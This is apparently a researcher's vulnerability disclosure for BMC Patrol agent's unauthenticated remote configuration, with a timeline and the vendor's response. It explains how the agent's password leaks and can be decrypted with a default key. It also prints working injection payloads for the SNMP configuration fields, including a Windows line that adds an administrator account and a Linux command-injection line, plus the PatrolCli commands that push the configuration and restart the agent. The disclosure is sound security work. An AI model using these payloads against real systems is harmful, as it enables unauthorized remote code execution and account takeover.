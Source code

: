 ```yaml
---
title: Vulnerabilities in BMC Patrol's agent remote configuration
---
```


Patrol's [default configuration](https://docs.bmc.com/docs/PATROLAgent/107/securing-patrol-agent-from-the-pconfig-clients-655597337.html) permits unauthenticated remote configuration access and modification:
![config](./Patrol/config.png)

If your organisation uses this default setting, it should be changed ASAP as this makes the agent subject to two unauthenticated vulnerabilities resulting in remote code execution.

Remote secrets leak using Patrol's pconfig (<22.1.00)
-----------------------------------------------------

The configuration is remotely queried using the ```pconfig``` binary. The configuration contains the encrypted password of the local Patrol user:
![get pass](./Patrol/get.png)

All Patrol instances before update 22.1.00 [use a default encryption key](https://gist.github.com/gquere/045638b9959f4b3e119ea01d8d6ff856).

Thus the password of the Patrol account can be decrypted:
![decrypt](./Patrol/decrypt.png)

A valid Patrol account can be used to authenticate to the service and remotely execute code:
![exec](./Patrol/exec.png)

This vulnerability is mitigated in versions >=22.1.00 since the encryption key has been diversified.


Remote code excution using Patrol's pconfig
-------------------------------------------

The agent's configuration can be remotely updated using the ```pconfig``` binary.

Remote code execution can be achieved by injecting commands in the masterAgentName field that is used to start the SNMP service.

For Windows:
```
"/snmp/masterAgentName" = { REPLACE = "cmd /c \"net user test_lol sup3rPASS! /add && net localgroup Administrators test_lol /add\" &&" },
"/snmp/masterAgentDir" = { REPLACE="bin/../../../Windows/system32/" },
```

Do note that the ```masterAgentDir``` path is relative and depends on Patrol's installation path. Usually this is under C:\BMC.

On Linux systems (according to my old notes, YMMV) it's a different parameter that leads to code execution:
```
"/snmp/masterAgentStartLine" = { REPLACE="/usr/bin/touch /tmp/snmp ; /usr/bin/touch /tmp/snmp2 & #" },
```

The configuration is pushed using the ```+Reload``` directive:
```
PatrolCli -host xxx +Reload /tmp/my_config
```

To maximize chances of success, only the new SNMP configuration should be pushed. Remotely overwriting other parts of the configuration may result in an **unrecoverable** remote DoS.

The agent needs to be remotely restarted for the modification to take effect:
```
PatrolCli -host xxx +RESTART
```

Editor response
---------------
According to the editor these are not vulnerabilities: "These are not vulnerabilities for us as we have provided the option to implement the authentication".

Timeline
--------
2021: Vulnerabilities discovered  
2023-01: Editor contacted  
2023-02: Editor ACK  
2023-05: FD
